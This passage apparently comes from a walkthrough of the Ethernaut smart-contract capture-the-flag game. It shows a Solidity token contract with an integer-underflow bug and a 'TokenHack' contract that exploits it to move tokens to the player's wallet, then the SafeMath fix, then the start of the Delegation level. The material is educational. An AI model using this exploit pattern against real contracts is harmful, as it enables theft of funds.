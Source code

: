 ```
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}

contract TokenHack {
    function hack(uint amount) public {
        Token token = Token(0xd5ECB40D16108e56E79dD76cd91e443743E855C8); // Ethernaut deployed Token contract
        token.transfer(0xe79252E06591B58E5865115faC30CE6926D8eF40, amount); // put the address playing the game here
    }
}
```
`TokenHack` basically calls the transfer with the amount passed and sends the amount to our wallet. Call `transfer` and send `21` tokens, that will result in a total of `41` tokens to your balance.
To fix this vunerability in the code, it's easier to use the SafeMath library, that provides the overflow checks under the hood.
E.g: `a = a.add(c);`

## 6. Delegation

```
The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

    Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
    Fallback methods
    Method ids
Sources

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
```